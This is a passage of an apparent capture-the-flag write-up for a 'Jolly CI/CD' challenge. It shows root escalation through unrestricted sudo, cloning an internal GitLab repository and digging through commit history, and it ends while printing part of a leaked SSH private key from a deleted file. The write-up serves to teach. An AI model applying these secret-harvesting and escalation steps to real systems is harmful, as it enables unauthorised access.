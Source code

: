 The answer is `082bb339ec19de4935867`

## Jolly CI/CD
The objective of this challenge is to exploit a CI/CD pipeline and get the Elfen Ring back.


We are dropped into a shell environment similar to the last challenge. First, we notice that we can escalate to root using `sudo`:
```
grinchum-land:~$ sudo -l
User samways may run the following commands on grinchum-land:
	(ALL) NOPASSWD: ALL
grinchum-land:~$ sudo -i
grinchum-land:~# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

From the hint information, it seems like some extraneous information was committed up to that `wordpress.flag.net.internal.git` repository. Let’s try to clone that using our now-elevated privileges:

```
grinchum-land:~# git clone http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git
Cloning into 'wordpress.flag.net.internal'...
remote: Enumerating objects: 10195, done.
remote: Total 10195 (delta 0), reused 0 (delta 0), pack-reused 10195
Receiving objects: 100% (10195/10195), 36.49 MiB | 22.52 MiB/s, done.
Resolving deltas: 100% (1799/1799), done.
Updating files: 100% (9320/9320), done.

grinchum-land:~# ls -tdlr wordpress.flag.net.internal/
drwxr-xr-x 6 root root 4096 Dec  8 13:15 wordpress.flag.net.internal/
```

And we now have access to those repository files. It is worth noting that a `.gitlab-ci.yml` is present in the repository - which controls GitLab CI pipelines.

But before we do that, we should explore the hint-provided information about accidentally committing something. We can use `git log` to inspect commit history:
```
commit e19f653bde9ea3de6af21a587e41e7a909db1ca5
Author: knee-oh <sporx@kringlecon.com>
Date:   Tue Oct 25 13:42:54 2022 -0700

	whoops
```

One commit jumps out at us, with the commit message as “whoops”. We can look at the actual changes to the repo by using `git show <commit hash>`:
```
commit e19f653bde9ea3de6af21a587e41e7a909db1ca5
Author: knee-oh <sporx@kringlecon.com>
Date:   Tue Oct 25 13:42:54 2022 -0700

	whoops

diff --git a/.ssh/.deploy b/.ssh/.deploy
deleted file mode 100644
index 3f7a9e3..0000000
--- a/.ssh/.deploy
+++ /dev/null
@@ -1,7 +0,0 @@
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4gAAAJiQFTn3kBU5
9wAAAAtzc2gtZWQyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4g
```